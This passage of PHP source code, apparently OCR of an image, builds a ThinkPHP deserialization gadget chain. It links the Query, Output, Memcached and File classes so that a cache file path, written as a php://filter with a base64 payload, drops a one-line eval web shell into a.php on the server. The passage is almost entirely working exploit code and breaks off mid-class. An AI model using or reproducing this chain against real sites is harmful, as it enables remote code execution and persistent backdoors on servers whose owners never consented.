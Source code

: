 ```php
    {
        protected $selfRelation;
        protected $bindAttr = [];
        protected $query;
        function __construct($query)
        {
            $this->selfRelation = 0;
            $this->query = $query;    //$query指向Query
            $this->bindAttr = ['xxx'];// $value值，作为call函数引用的第二变量
        }
    }
}

namespace think\db {
    class Query {
        protected $model;

        function __construct($model)
        {
            $this->model = $model; //$this->model=> think\console\Output;
        }
    }
}
namespace think\console{
    class Output{
        private $handle;
        protected $styles;
        function __construct($handle)
        {
            $this->styles = ['getAttr'];
            $this->handle =$handle; //$handle->think\session\driver\Memcached
        }

    }
}
namespace think\session\driver {
    class Memcached
    {
        protected $handler;

        function __construct($handle)
        {
            $this->handler = $handle; //$handle->think\cache\driver\File
        }
    }
}

namespace think\cache\driver {
    class File
    {
        protected $options=null;
        protected $tag;

        function __construct(){
            $this->options=[
                'expire' => 3600, 
                'cache_subdir' => false, 
                'prefix' => '', 
                'path'  => 'php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=aaaPD9waHAgQGV2YWwoJF9QT1NUWydjY2MnXSk7Pz4g/../a.php',
                'data_compress' => false,
            ];
            $this->tag = 'xxx';
```